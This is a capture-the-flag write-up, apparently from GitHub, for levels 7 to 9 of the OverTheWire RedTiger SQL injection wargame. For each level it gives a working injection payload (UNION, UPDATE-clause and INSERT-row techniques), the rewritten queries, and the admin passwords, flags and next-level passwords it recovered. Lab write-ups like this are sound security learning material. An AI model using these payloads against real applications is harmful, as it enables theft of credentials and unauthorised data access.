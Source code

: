 ## Level 7

**URL:** https://redtiger.labs.overthewire.org/level7.php
**Target:** Get the name of the user who posted the news about google. Table: level7_news, column: autor
**Restrictions:** no comments, no substr, no substring, no ascii, no mid, no like

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503131426968.png" alt="image-20200503131426968" style="border:1px solid black;" />



Searching for the word `google` presented the requested article:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503131627542.png" alt="image-20200503131627542" style="border:1px solid black;" />



I assumed the query uses the `LIKE` function, and decided to search for `%` to fetch all results:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503131551817.png" alt="image-20200503131551817" style="border:1px solid black;" />



Looks like the database has 4 articles. I tried to search for `'` in order to get an error:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503131718412.png" alt="image-20200503131718412" style="border:1px solid black;" />



Turns out the query looks like this, where `[search]` can be defined by me:

```sql
SELECT news.*,text.text,text.title 
FROM level7_news news, level7_texts text 
WHERE text.id = news.id AND (text.text LIKE '%[search]%' OR text.title LIKE '%[search]%');
```

I used the following payload to present the authors instead of the articles' content:

```
[search] = foo') UNION SELECT news.*,news.autor,text.title FROM level7_news news, level7_texts text WHERE (text.title = 'Google: The browser is the computer' OR ''='
```

This changed the query to:

```sql
SELECT news.*,text.text,text.title 
FROM level7_news news, level7_texts text 
WHERE text.id = news.id AND (text.text LIKE '%foo') 
UNION 
SELECT news.*,news.autor,text.title 
FROM level7_news news, level7_texts text 
WHERE (text.title = 'Google: The browser is the computer' OR ''='%' OR text.title LIKE '%foo') 
UNION 
SELECT news.*,news.autor,text.title 
FROM level7_news news, level7_texts text 
WHERE (text.title = 'Google: The browser is the computer' OR ''='%');
```

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503134410967.png" alt="image-20200503134410967" style="border:1px solid black;" />



I could see the four authors, and tried them until I reached the right one (**TestUserforg00gle**). I received the flag (**970cecc0355ed85306588a1a01db4d80**) and the password for Level 5 (**or_so_i'm_told**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503140130137.png" alt="image-20200503140130137" style="border:1px solid black;" />



## Level 8

**URL:** https://redtiger.labs.overthewire.org/level8.php
**Target:** Get the password of the admin.

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503225903120.png" alt="image-20200503225903120" style="border:1px solid black;" />



After trying various inputs to cause errors, I entered the following: Email: `'1`, Name: `2`, ICQ: `3`,  AGE: `4`. I received the following error:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503230440368.png" alt="image-20200503230440368" style="border:1px solid black;" />



From the error it seems that this is an `UPDATE` query (commas instead of `AND`), that probably looks similar to this:

```sql
UPDATE tablename 
SET name = '[name]' ,
	email = '[email]' , 
	icq = '[icq]' , 
	age = '[age]' 
WHERE id = 1;
```

I decided to send the value `' , name=password , icq='` to parameter "email", so that the query will become:

```sql
UPDATE tablename 
SET name = '[name]' ,
	email = '' , 
	name=password , 
	icq='' , 
	icq = '[icq]' , 
	age = '[age]' 
WHERE id = 1;
```

The password (**19JPYS1jdgvkj**) was presented in the "Name" field:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503231852360.png" alt="image-20200503231852360" style="border:1px solid black;" />



I used the password with the username "Admin" to log in, and received the flag (**9ea04c5d4f90dae92c396cf7a6787715**) and the password for Level 9 (**network_pancakes_milk_and_wine**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503232215364.png" alt="image-20200503232215364" style="border:1px solid black;" />



## Level 9

**URL:** https://redtiger.labs.overthewire.org/level9.php
**Target:** Get username and password of any user. Tablename: level9_users
**Hint:** This is not a blind injection. There is a way to get some output back:)

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200505130105460.png" alt="image-20200505130105460" style="border:1px solid black;" />



Filling the fields and sending the form added a new article and presented it:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200505130455987.png" alt="image-20200505130455987" style="border:1px solid black;" />



I assumed this is an `INSERT` query that looks like the following:

```sql
INSERT 
INTO table_name (name, title, content)
VALUES 	('[name]', '[title]', '[content]'),
		((SELECT  user FROM level9_users),(SELECT  password FROM level9_users),'');
```

Trying to send `'` in the different fields showed that only the "content" field causes an error.  Since the query expects only 3 columns to be entered, I had to make it create another row to present the requested data.

I decided to enter the following payload in the "content" field:  `'), ((SELECT  user FROM level9_users),(SELECT  password FROM level9_users),'`

The query becomes:

```sql
INSERT 
INTO table_name (name, title, content)
VALUES 	('', '', ''),
		((SELECT  user FROM level9_users),(SELECT  password FROM level9_users),'');
```

Which plots the username (**TheBlueFlower**) and password (**this_oassword_is_SEC//Ure.promised!**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503235826857.png" alt="image-20200503235826857" style="border:1px solid black;" />



I used them and received the flag (**84ec870f1ac294508400e30d8a26a679**) and the password for Level 10 (**whatever_just_a_fresh_password**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200503235959215.png" alt="image-20200503235959215" style="border:1px solid black;" />
